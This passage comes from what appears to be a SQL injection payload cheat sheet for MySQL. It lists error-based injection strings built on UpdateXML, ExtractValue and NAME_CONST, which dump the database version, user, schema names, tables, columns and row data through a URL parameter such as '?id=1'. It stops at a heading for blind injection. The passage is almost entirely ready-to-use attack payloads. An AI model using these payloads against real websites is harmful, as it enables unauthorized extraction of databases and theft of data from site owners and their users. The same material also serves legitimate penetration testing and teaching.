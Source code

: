 
### MYSQL Error Based - UpdateXML Function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Shorter to read:

```sql
updatexml(null,concat(0x0a,version()),null)-- -
updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```


### MYSQL Error Based - Extractvalue Function

Works with `MySQL >= 5.1`

```sql
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),table_name,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```


### MYSQL Error Based - NAME_CONST function (only for constants)

Works with `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```


## MYSQL Blind

### MYSQL Blind With Substring Equivalent
